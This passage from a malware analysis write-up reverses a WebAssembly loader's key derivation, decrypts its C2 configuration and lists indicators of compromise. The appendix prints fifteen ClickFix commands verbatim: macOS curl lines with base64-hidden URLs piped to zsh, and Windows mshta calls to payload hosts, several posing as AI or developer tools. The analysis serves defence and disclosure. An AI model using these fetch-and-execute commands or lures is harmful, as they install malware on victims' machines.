2. `$f787` acts as the global queue/scheduler for tasks and calls `$f292`.  
3. `$f292` schedules micro-tasks and calls `$f355`, leveraging a “drain scheduled?” flag so tasks aren’t sent to `$f355` twice.  
4. `$f355` pushes a task into the queue, then calls `$f732` to do work.

This synchronous process purely handles stacking the queue and doing work – never once does it *poll* to check if the queue is empty. When `$f292` (the task scheduler) returns, the entire chain collapses back to `get_commands()`, finally passing a pending Promise back to JavaScript. Once the Promise is received, *then* `$f355` -> `$f732` will loop to complete the given task. JavaScript & WASM pass between each other a few more times until the task is complete, ending with the drain closure in `$__wasm_bindgen_func_elem_69`, with an indirect call for `Queue::run_all`. Each task is passed through `$f722` -> `$f727` -> `$f758` during this loop.

Things finally get interesting with the indirect call in `$f758`.

## Function 758: Another Indirect Call

This function exists purely to indirectly call another function, obfuscating the callee’s identity.

This new vtable was actually written all the way back in `$f176` at **1055088** (hex **00101970**), but was never used – until now.

```shell
 (func $f758 (type $t10) (param $p0 i32) (param $p1 i32) (param $p2 i32) (result i32)
    local.get $p0                  ;; ptr to self object
    local.get $p2                  ;; cx
    local.get $p1                  ;; ptr to vtable at 1055088
    i32.load offset=12             ;; mem[1055088+12], index
    call_indirect $T0 (type $t7))  ;; call table[index](p0, p2)
```

Jumping to **00101970** in the Data section, we can find the +12 offset in the fourth box:

  
*Figure 015 – `wasm-objdump` output showing vtable embedded into the Data section*

The hex byte **1e** converts to **30** as an integer, giving us the index location of the function indirectly executed: `$f68`.

## Function 68: Finally Some Sauce

Function `$f68` is massive in comparison to the previous calls we were analyzing, totaling 998 lines across 20+ nested logic blocks. This is the state machine that bars us from just reading the malware configuration.

Nested within `$B20` is a function call `call $f115` of particular interest, as it is the only time this function is called across the entire WASM. Another large function, `$f115` selects 10 of 30 base64 string slices using indices computed by XOR-ing a pair of arrays from the Data section. 

To confuse analysis, 20 of these slices are decoys. Only 10 specific slices are loaded, as indicated by the slice indices: **[2, 7, 11, 14, 17, 19, 22, 24, 26, 29]**.

With a little Python, the relevant base64 slices can be retrieved & reassembled:  
  
*Figure 016 – output of Python script showing reconstructed base64 blob*

The base64 does not decode to plaintext, so we are not done yet. Function `$f115` calls `$f67` to handle the decoding & decryption process. 

The function is too large to show in full, so we have extracted the most interesting piece of logic here:

```shell
...
i32.const 1056568     ;; mem[1056568]
local.get $l3
i32.load offset=48
...
```

Converting the address **1056568** to hex (**00101F38**), we can easily infer that this 64-byte structure is the base64 alphabet being loaded:

  
*Figure 017 – `wasm-objdump` output showing base64 alphabet in Data section*

Let’s dig deeper.

## Function 67: Decrypting The Payload

The next line of interest in `$f67` is `i64.const -8984856996176175547`, set within the `$B7` block. That’s an abnormally large signed integer, and quickly catches the eye when scrolling through the function:

  
*Figure 018 – `connector_bg.wasm` line 16796 shows integer of interest `-8984856996176175547`*

`wasm2wat` prints this value as a signed two’s-complement decimal, but once the constant is stored into linear memory it is written little-endian, so the least-significant byte lands first.

We can easily use a one-liner to swap to the complement & convert from decimal to hex:

```py
python3 -c "print(hex(-8984856996176175547 & (2**64-1)))"
0x834f602a713c5e45
```

Since it is still in MSB format, we just swap the byte order from `83 4F 60 2A 71 3C 5E 45` to `45 5e 3c 71 2a 60 4f 83`.

It looks like an encryption seed, but we need to prove that claim. The logical next step is to follow where that constant is stored & where it gets used.

First, the bytes are stashed for later usage.

```shell
local.get $l3
i64.const -8984856996176175547  ;; hex 0x834F602A713C5E45
i64.store offset=616 align=1    ;; mem[l3+616 .. +623] = 45 5e 3c 71 2a 60 4f 83
```

The next time these bytes are referenced is within loop `$L9` to permute a shuffle order – a list of numbers 0-7 in a scrambled sequence, decided by the seed (`-8984856996176175547`) that was just loaded onto the stack.

```shell
loop $L9
    local.get $p2   ;; index of current byte (0-7)
    i32.const 8
    i32.eq          ;; p2=8? false
    br_if $B8       ;; break if true
    local.get $p1   ;; output address
    local.get $l3
    i32.const 616
    i32.add         ;; l3+616
    local.get $p2   ;; index of current byte
    i32.add         ;; l3+616+index = [j]-th seed byte
    i32.load8_u     ;; read 1 byte
    i32.const 5
    i32.mul         ;; byte*5
    i32.const 3
    i32.add         ;; +3
    i32.const 7
    i32.and         ;; bitwise &7 (retain bottom 3 bits)
    i32.store       ;; stash perm value in output array
    local.get $p1   ;; dst address
    i32.const 4
    i32.add         ;; dst addr+4, advance to next byte
    local.set $p1   ;; update dst address for next byte
    local.get $p2   ;; index of current byte
    i32.const 1
    i32.add         ;; index+1
    local.set $p2   ;; update index
    br $L9          ;; loop!
end
```

Effectively, this permutes `[0,1,2,3,4,5,6,7]` into `[4,1,7,0,5,3,6,2]`. This list is stashed for later usage to determine the order in which data is fed through SHA-256. Importantly, each entry is derived from the corresponding seed byte (`45 5e 3c 71 2a 60 4f 83`) via `(byte*5+3) & 7`. Given a different seed constant, the shuffle would output a different order entirely.

When that loop completes, a second loop runs once per iteration `j` (0-7). Each iteration uses `j` to compute a constant — `(j*55 - 98) & 0xFF` — then XOR’s every one of the 16 bytes of that iteration’s key-material block (`block[perm[j]]`) with that single constant byte.

```shell
local.get $p2    ;; loop counter [j]
i32.const 55
i32.mul          ;; [j]*55
i32.const -98
i32.add          ;; [j]*55-98
local.set $l13   ;; new const [j]*55-98
i32.const 0
local.set $p2    ;; $p2=0 (was [j])
loop $L15
	local.get $p2   ;; 0
	i32.const 16
	i32.eq          ;; 0=16? false
	br_if $B12      ;; break if true
	local.get $l3   ;; frame base
	i32.const 1200
	i32.add         ;; base+1200, block buffer
	local.get $p2   ;; 0, byte index
	i32.add         ;; increment as counter increases
	local.tee $p1   ;; addr = l3+1200 + byte index
	local.get $p1   ;; addr
	i32.load8_u     ;; stash addr for later
	local.get $l13  ;; XOR const for this iteration (j*55-98)&0xFF
	i32.xor         ;; XOR addr by const
	i32.store8      ;; stash new addr
	local.get $p2   ;; 0
	i32.const 1
	i32.add         ;; 0+1=1, byte index
	local.set $p2   ;; $p2=1
	br $L15         ;; loop!
  end
```

The variable `[j]` above is the loop counter, 0 on its first iteration, 1 on its next iteration, etc. Note that it is the *iteration* index, **not** the block number — which block each iteration masks is decided separately by `perm[j]`.

Effectively, each iteration of the loop would look like:

| iteration `j` | `(j*55)-98` | `& 0xFF` (the actual XOR byte) | block masked (`perm[j]`) |
| :---- | :---- | :---- | :---- |
| 0 | -98 | **158** (0x9E) | #4 |
| 1 | -43 | **213** (0xD5) | #1 |
| 2 | 12 | **12** (0x0C) | #7 |
| 3 | 67 | **67** (0x43) | #0 |
| 4 | 122 | **122** (0x7A) | #5 |
| 5 | 177 | **177** (0xB1) | #3 |
| 6 | 232 | **232** (0xE8) | #6 |
| 7 | 287 | **31** (0x1F) | #2 |

So iteration `j` masks with `[158,213,12,67,122,177,232,31][j]`. The WASM never materializes that array — `$L15`’s preamble recomputes a single constant into `$l13` on each pass — but it is convenient to treat it as one when reversing the routine.

Now that we know the order of blocks to be loaded & the byte to XOR them by to reverse the computation, we can step out of the loop to the surrounding block of code. Right before the `$L15` loop started, data is loaded from the following offset:

```shell
i64.load offset=1056424 align=1
```

The offset **1056424** looks like an address in the Data section again, so we convert it to hex (**00101EA8**) to examine that section. The `i64.load` itself only pulls 8 bytes per pass, but our index is 8 entries long (0-7) & each entry is a 16-byte block, so we expect a 128-byte region — and that is exactly what sits at **00101EA8** before unrelated data resumes.

  
*Figure 019 – `wasm-objdump` output showing the 8 × 16-byte AES key-material table at `00101EA8` in the Data section*

Effectively, the table looks like:

```shell
j[0] = 9a17b342e58c61f03d7a28d4960b5fc3
j[1] = 4ed2851fa763c90e5b38f4712c8de0a6
j[2] = 72ab16d84fe39a570cb165298ef743da
j[3] = be5307c46d91f82ae640b51e73dc8936
j[4] = 318fa45ec71276db49e80abd63f52894
j[5] = e724986bd04a1fb3865cf907a23ec571
j[6] = 59ce3ba01487e26cd5437fb801965aef
j[7] = 067dc148b62f93ea15a9d7543c806ef2
```

The XOR-constant array is computed arithmetically from the loop counter using hardcoded multipliers (`55` and `-98`), so it is identical across samples; the shuffle order is computed from the seed, which can differ between samples. The permutation is the seed-dependent secret (which of the 8 key-material blocks goes where); the constants are a fixed scramble (same masks every time). The two arrays are used together per iteration `j`: take **block #`perm[j]`** from the table above (for `j=0`, `perm[0]=4` → **block #4**, `318fa45e…`) and XOR each of its 16 bytes with **`const[j]`** (for `j=0`, `158`). The eight masked blocks are then concatenated in `j` order to form the 128-byte SHA-256 input.

The new masked block is copied to a new location to stage it as input for the SHA-256 routine. 16 bytes at a time, the block is streamed through `$f612()` (`Sha256::update()`), which adds the chunk length to the message-length counter & buffers the data, invoking `$f63` to compress only once a full 64-byte block has accumulated. The update call runs 8 times — once per masked block — so the 128 bytes of key material drive two compression rounds, plus a third for the final padding block.

```shell
local.get $l3
i32.const 1168
i32.add              ;; dst addr $l3+1168
i32.const 32         ;; dst length
local.get $l3
i32.const 1200
i32.add              ;; src addr $l3+1200
i32.const 32         ;; src length
i32.const 1054552    ;; panic location
call $f579           ;; call $f579(l3+1168, 32, l3+1200, 32, 1054552)
```

Note that `$l3+1200` served as the 16-byte block buffer during `$L15`; once the hash is finalized, the 32-byte digest is written back over that same scratch space. This function call `$f579` then copies the digest from `$l3+1200` to `$l3+1168`.

Since the decryption functions only execute at runtime, this is about as far as we go with statically pulling data from the WAT & counting indexes on our fingers. 

The hard part is done though, we have enough context to decrypt our payload with a little Python magic: the computed AES-256-GCM key **must** be **22755fb265be06ab67b8f2e1141237027064741374f87027e0974c07cdd64484** based on the seed constant **-8984856996176175547**. Full code is accessible in **decrypt_payload.py**.

  
*Figure 020 –  output of Python script showing reconstructed base64 blob & final payload output*

The decrypted payload is a list of C2 domains, reproduced in full under [URLs](#1-urls). The WASM selects one of them at random and appends the URI `/d` to the end. A GET request is made to the constructed URL, such as `hnfsdhreh[.]top/d` as observed in our sample.

The response is parsed for the key `data-payload` then the corresponding value is passed back through the same AES-256-GCM decryption routine, using the same key as before to decrypt all possible payloads.

  
*Figure 021 – encrypted C2 configuration retrieved from a GET request to `hnfsdhreh[.]top/d`*

The extracted config for the “**cowork**” campaign is shown below as an example; reference the [ClickFix Commands section](#2-clickfix-commands) for all decrypted configs.

```javascript
{
      "macos": "curl -LfskS $(echo 'aHR0cHM6Ly9mYW1pb2RlLmNvbS9jdXJsL2Q1ZDlmNzI3YWE4ODQ0NzhhNTEyMWJmOTAzMmY3NzNlZDM5NDJmYjFhNWFmZThkNjg3YzllYzliOWIwNDEyMTE='|base64 -D)|zsh",
      "name": "cowork",
      "windows": "mshta hxxps[://]download-version[.]1-4-9[.]com/cowork"
},
```

There appear to be 15 unique campaign lures based on these `name` keys:

| Name | macOS | Windows | Target |
| :---- | :---- | :---- | :---- |
| claude | Yes | Yes | AI users (Anthropic Claude) |
| notebook | Yes | Yes | AI users (Google NotebookLM) |
| deepseek | Yes | Yes | AI users (DeepSeek) |
| manus | Yes | Yes | AI users (Manus AI agent) |
| pycharm | Yes | Yes | Developers (JetBrains PyCharm) |
| jetbrains | Yes | Yes | Developers (JetBrains suite) |
| cowork | Yes | Yes | Productivity users |
| polymarket | No | Yes | Crypto/prediction market users |
| hidden | Yes | No | Unknown |
| sound | Yes | No | Unknown |
| storage | Yes | No | Unknown |
| usb | Yes | No | Unknown |
| dns | Yes | No | Unknown |
| frozen | Yes | No | Unknown |
| slow | Yes | No | Unknown |

# Conclusion

WebAssembly has some interesting features and undoubtedly speeds up interactions on webpages, but it was never designed to house sensitive data. With only the [wabt](https://github.com/WebAssembly/wabt) toolkit and a scratchpad to keep track of ephemeral pointers, defenders can peel back the layers of malicious WASM payloads to uncover juicy configurations that malware developers likely never intended for us to see.

Paranoids FIRE gets to play with some neat malware; on an entirely unrelated note: we’re currently looking to fill a senior position on our team.

# Appendix

## Scripts

### 1. Deobfuscate iframe logic

Full script: [`scripts/deobfuscate_iframe.py`](scripts/deobfuscate_iframe.py)

### 2. Decrypt Final Payload

Full script: [`scripts/decrypt_payload.py`](scripts/decrypt_payload.py)

## Indicators of Compromise (IOCs)

### 1. URLs

Extracted from WASM file via AES decryption key **22755fb265be06ab67b8f2e1141237027064741374f87027e0974c07cdd64484**.

```json
[
	"hxxps[://]hrb-hrjd-dn[.]icu",
	"hxxps[://]gbmq-mag-1b3l[.]icu",
	"hxxps[://]nbt-sngq-ebn-5[.]icu",
	"hxxps[://]nga-dge[.]icu",
	"hxxps[://]hewh-dh[.]icu",
	"hxxps[://]hw-dsgqeh-f[.]icu",
	"hxxps[://]ngdjwg-09-113[.]icu",
	"hxxps[://]j26hrkl-268yuh[.]icu",
	"hxxps[://]ngdjk-628yuh[.]icu",
	"hxxps[://]bn-3nt-26t[.]icu",
	"hxxps[://]fregherwqewr5[.]top",
	"hxxps[://]hnfsdhreh[.]top",
	"hxxps[://]ngsfjaeru2[.]top",
	"hxxps[://]otyuyre3[.]top",
	"hxxps[://]rhtwyu34[.]top",
	"hxxps[://]sdfsdfsdfs[.]top"
]
```

### 2. ClickFix Commands

Retrieved from the C2 response at `hnfsdhreh[.]top/d` and decrypted with the same AES key **22755fb265be06ab67b8f2e1141237027064741374f87027e0974c07cdd64484**.

```json
{
  "commands": [
    {
      "macos": "curl -skfSL $(echo 'aHR0cHM6Ly9mYW1pb2RlLmNvbS9jdXJsLzVkZmQ0MmZjOWJiOWU1MDA0NzNkYTgzYmRhYTY4MzM3OGI3YjY0MTM0NDcwMDhmOTZhNWFhMWE2N2U2MjViYTc='|base64 -D)|zsh",
      "name": "claude",
      "windows": "mshta hxxps[://]download-version[.]1-4-9[.]com/claude"
    },
    {
      "macos": "curl -SfLks $(echo 'aHR0cHM6Ly9mYW1pb2RlLmNvbS9jdXJsL2U3NDY1MDFiNzQ4NjRhMzBjNmIxNDc3MzE3YzJkMDYwM2U5YWZhZjliMDRjMmE0YTZmNTU4M2ZlOGMxNDkyODg='|base64 -D)|zsh",
      "name": "notebook",
      "windows": "mshta hxxps[://]download-version[.]1-4-9[.]com/notebooklm"
    },
    {
      "macos": "curl -fksLS $(echo 'aHR0cHM6Ly9mYW1pb2RlLmNvbS9jdXJsLzVkNzlkNDBmNGZjMGMzYzU1M2Y3MjI3Nzc1MjA0M2UwNjViOTZhYmRkYjdiMTllZjIwMDUyNWNjZDFkMmQ3OWU='|base64 -D)| zsh",
      "name": "hidden",
      "windows": "Empty"
    },
    {
      "macos": "curl -fsLkS $(echo 'aHR0cHM6Ly9mYW1pb2RlLmNvbS9jdXJsLzJlZmJhODcxYWFhZTYxZTMxMjE0ZDExMjNkN2EwYTg1NWIzYzMxYmE3ZTgzZDMzYmE1ODIwZmNlMTYzYjY3YjY='|base64 -D)| zsh",
      "name": "sound",
      "windows": "Empty"
    },
    {
      "macos": "curl -sLSfk $(echo 'aHR0cHM6Ly9mYW1pb2RlLmNvbS9jdXJsL2ZlNmRlY2QzOGU3YmMyNDE5MzFkMGNlMGViNDY0NDBlOGQ2YmVhNmJkMzI0NzkxMTQ0Y2I5MjUwZTNkNmUyYzQ='|base64 -D)| zsh",
      "name": "storage",
      "windows": "Empty"
    },
    {
      "macos": "curl -SsfkL $(echo 'aHR0cHM6Ly9mYW1pb2RlLmNvbS9jdXJsL2NhOTdjMmM0Yzc0MTZhOTUxMWY5MTE0NDExZDFjNzMwYzM2ZDY2N2IwNzIwOGQ3YjE2ZDc1NjljNGJjYjFjYzQ='|base64 -D)|zsh",
      "name": "usb",
      "windows": "Empty"
    },
    {
      "macos": "curl -fLskS $(echo 'aHR0cHM6Ly9mYW1pb2RlLmNvbS9jdXJsLzY2OTVmMTI4NGVhZjkxYjAwMzczNDRhYzUxNjRjZjJlMTVmNTUzMTYzNTAzNmY5NzQwYzQ2YzlhYmU4ZWI2MmU='|base64 -D)|zsh",
      "name": "dns",
      "windows": ""
    },
    {
      "macos": "curl -kSsfL $(echo 'aHR0cHM6Ly9mYW1pb2RlLmNvbS9jdXJsLzBkNDFiN2U0ZjNiNzYwZDVmNWMzNjYyNGNkMDA3ZjVjY2NmOTIzMTQ3MzY0Zjk1NjFiYzg2NTdmYTJlMTFhMGU='|base64 -D)| zsh",
      "name": "frozen",
      "windows": ""
    },
    {
      "macos": "curl -kLfsS $(echo 'aHR0cHM6Ly9mYW1pb2RlLmNvbS9jdXJsL2ViZGQ5NDU4MjM1MmU2NjdhNWYzZDM2YzQ0N2EyYmEzNDhjMTMwMGVkMDg2ZjQ2NzFiNjc4ZjY1Y2FiNTliODM='|base64 -D)| zsh",
      "name": "slow",
      "windows": ""
    },
    {
      "macos": "curl -kLfsS $(echo 'aHR0cHM6Ly9mYW1pb2RlLmNvbS9jdXJsLzQxZjE3ZTA2NjQ1ZWVhNTZhYWUyODJmYzU4YTU4YTEzYjBkZWY2MTVjNWQ4ZTFhMTUzNTlkZmNmZjNmYjVlMTg='|base64 -D)| zsh",
      "name": "pycharm",
      "windows": "mshta[.]exe hxxps[://]download-version[.]3-15-2[.]com/app"
    },
    {
      "macos": "",
      "name": "polymarket",
      "windows": "mshta hxxps[://]download-version[.]1-4-9[.]com/polymarket"
    },
    {
      "macos": "curl -LkSsf $(echo 'aHR0cHM6Ly9mYW1pb2RlLmNvbS9jdXJsL2I1NjUxMjczZjhlM2ZlZDdkYjIzNzYyNmM3YjkxNzI5ZjNjMDVmMzAzNDg4YTNmYWVkMGZlODJmNzA1YmIxNTM='|base64 -D)| zsh",
      "name": "manus",
      "windows": "mshta hxxps[://]download-version[.]1-4-9[.]com/manus"
    },
    {
      "macos": "curl -kLfsS $(echo 'aHR0cHM6Ly9mYW1pb2RlLmNvbS9jdXJsLzQxZjE3ZTA2NjQ1ZWVhNTZhYWUyODJmYzU4YTU4YTEzYjBkZWY2MTVjNWQ4ZTFhMTUzNTlkZmNmZjNmYjVlMTg='|base64 -D)| zsh",
      "name": "jetbrains",
      "windows": "mshta hxxps[://]download-version[.]1-4-9[.]com/jetbrains"
    },
    {
      "macos": "curl -LfskS $(echo 'aHR0cHM6Ly9mYW1pb2RlLmNvbS9jdXJsL2Q1ZDlmNzI3YWE4ODQ0NzhhNTEyMWJmOTAzMmY3NzNlZDM5NDJmYjFhNWFmZThkNjg3YzllYzliOWIwNDEyMTE='|base64 -D)|zsh",
      "name": "cowork",
      "windows": "mshta hxxps[://]download-version[.]1-4-9[.]com/cowork"
    },
    {
      "macos": "curl -LfSsk $(echo 'aHR0cHM6Ly9mYW1pb2RlLmNvbS9jdXJsLzNlYjliYmM3MzNkNjczM2MzNDkwNTM0Y2MyM2RhODRlMzljZDM5MGYwZjNlZWJmYjY2NTMxMjllOTIwMWFiZGE='|base64 -D)|zsh",
      "name": "deepseek",
      "windows": "mshta hxxps[://]download-version[.]1-4-9[.]com/app"
    }
  ]
}
```

### 3. Sample Hashes

| Name | SHA256 Hash |
| :---- | :---- |
| 1st stage dropper | 6a6550c410a28b0f53947fb4654142ff4a77235748caed58b7ef4914362f6a70 |
| 2nd stage /tmp/helper | 00c17d7791fa38015ba38d91ccbcbe3a32b244590bdefda9c69e7b0be78f99bb |
| connector.js | 7aaa6f7c7edc772041c75279da0a87d180a5e236ddac618005a03a9632cd74a4 |
| connector_bg.wasm | a927363d2fa8e6f7716eb27f55255f4831016f18d362b230f1ea4d7352e261f3 |

## References

* [https://unit42.paloaltonetworks.com/preventing-clickfix-attack-vector/](https://unit42.paloaltonetworks.com/preventing-clickfix-attack-vector/)  
* [https://pushsecurity.com/blog/installfix/](https://pushsecurity.com/blog/installfix/)  
* [https://webassembly.org/](https://webassembly.org/)  
* [https://meetcyber.net/webassembly-as-an-attack-surface-new-browser-exploitation-b7acfbd2801f](https://meetcyber.net/webassembly-as-an-attack-surface-new-browser-exploitation-b7acfbd2801f)  
* [https://github.com/nneonneo/ghidra-wasm-plugin](https://github.com/nneonneo/ghidra-wasm-plugin)  
* [https://github.com/WebAssembly/wabt](https://github.com/WebAssembly/wabt)
